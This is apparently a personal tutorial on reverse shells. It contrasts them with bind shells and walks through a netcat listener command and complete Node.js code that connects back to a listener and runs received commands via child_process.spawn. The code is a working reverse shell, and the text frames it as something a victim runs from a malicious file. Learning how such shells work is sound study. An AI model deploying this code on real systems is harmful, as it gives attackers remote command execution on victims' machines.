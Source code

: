 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :
_
"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.


![](connected_reverse_shell.png)

### Ok good, we have a connection. Now what?
Now we implement the code that will make our TARGET do something when it receives the commands.

I used: `lient.on("data", FUNCTION )`

What this function does is specifying what the client will do when it will receive data. The passed data is defined as `"data"`and the `FUNCTION` is the action the TARGET will do.


```

client.on("data", (data)=>{  

  
    let cmd = (data.toString().trimEnd()); 

    let args = cmd .split(" "); 
    
    let exec = child_process.spawn(args[0],args.slice(1)); //args.slice(1) elimina il primo elemento del vettore

    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })


})
```

#### Let's break it down.

`let cmd = (data.toString().trimEnd()); `

Here i define `cmd` as the command that is passed. the method `toString()` is used to convert the bufferized hex that arrives into a string of character.

The method `trimEnd()` cuts the last character since it is a CR LF char and could mess up with the command we want to send.


`let args = cmd .split(" ");` here i define `args` as an array of all the commands + flags that are sent. The divisor is the space.

`let exec = child_process.spawn(args[0],args.slice(1));` This is the heart of our code. This method makes the command executable on the TARGET machine.


>child_process.spawn(command[, args][, options]).
As [**node.js** documentation states:](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) 
>The child_process.spawn() method spawns a new process using the given command, with command-line arguments in args. If omitted, args defaults to an empty array.

In our code, `args[0]` is the command we want to execute, from `args[1]` there are just flags. `args.slice[1]` takes the `args[]` vector from the 1st element, not the 0th.


To conclude, we make the client  output the result of our command. Alway using ".on"

```
    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })
    
````

## An example

![](connected_reverse_shell.png)












